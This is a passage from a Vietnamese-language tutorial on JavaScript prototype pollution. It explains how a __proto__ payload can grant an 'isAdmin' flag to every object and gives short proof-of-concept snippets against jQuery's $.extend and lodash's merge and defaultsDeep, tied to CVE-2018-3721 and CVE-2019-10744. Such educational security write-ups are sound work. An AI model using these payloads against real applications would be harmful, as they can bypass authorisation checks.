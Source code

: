 (Ta có thể tưởng tượng myObject là một trường nhập từ người dùng và được serialized vào trong DB)

Ở đoạn code này, thường ta sẽ nghĩ, khi chạy sẽ gán thuộc tính `isAdmin` và trong đối tượng mới được tạo ra. Nhưng về bản chất, nó đang gán thẳng vào `{}` và khi đó `{}.isAdmin` sẽ có giá trị `true`. Nếu sau đoạn code này, ta thực hiện kiểm tra như sau:

```
If (user.isAdmin === true) {
    // do something for admin
}
```

nếu user chưa tồn tại (`undefined`) thì thuộc tính `isAdmin` sẽ được tìm kiếm trong đối tượng cha của nó, chính là Object mà lúc này đã bị thêm vào thuộc tính `isAdmin` với giá trị `true` ở trên.

Ví dụ khác khi thực hiện trên JQuery 3.3.1:

```javascript
$.extend(true, {}, JSON.parse('{"__proto__": {"devMode": true}}'))
console.log({}.devMode); // true
```

Những lỗi này có thể ảnh hướng đến rất nhiều dự án Javascript, đặc biệt là các dự án NodeJS, ví dụ thực tế nhất chính là lỗi ở [Mongoose](https://thecodebarbarian.com/mongoose-prototype-pollution-vulnerability-disclosure.html), thư viện JS giúp thao tác với MongoDB, vào hồi tháng 12 năm 2018.

# CVE-2018-3721, CVE-2019-10744: Tấn công prototype pollution thông qua lodash

[Lodash](https://www.npmjs.com/package/lodash) cũng là một thư viện nổi tiếng cung cấp rất nhiều hàm khác nhau, giúp chúng ta viết code thuận tiện vào gọn gàng hơn với hơn 19 triệu lượt tải hàng tuần. Cách thức khai thác tương tự như với JQuery.

## CVE-2018-3721

```javascript
var _= require('lodash');
var malicious_payload = '{"__proto__":{"oops":"It works !"}}';

var a = {};
console.log("Before : " + a.oops);
_.merge({}, JSON.parse(malicious_payload));
console.log("After : " + a.oops);
```

## CVE-2019-10744

Lỗi này ảnh hưởng đến tất cả các phiên bản của Lodash, kể cả phiên bản mới nhất `4.17.11`. Bản vá sẽ được cập nhật trong thời gian sớm nhất.

```javascript
# PoC by Snyk
const mergeFn = require('lodash').defaultsDeep;
const payload = '{"contructor": {"prototype": {"a0": true}}}';

function check(){
    mergeFn({}, JSON.parse(payload));
    if (({})[`a0`] === true) {
        console.log('Vulnerable to Prototype Pollution via ${payload}');
    }
}
```
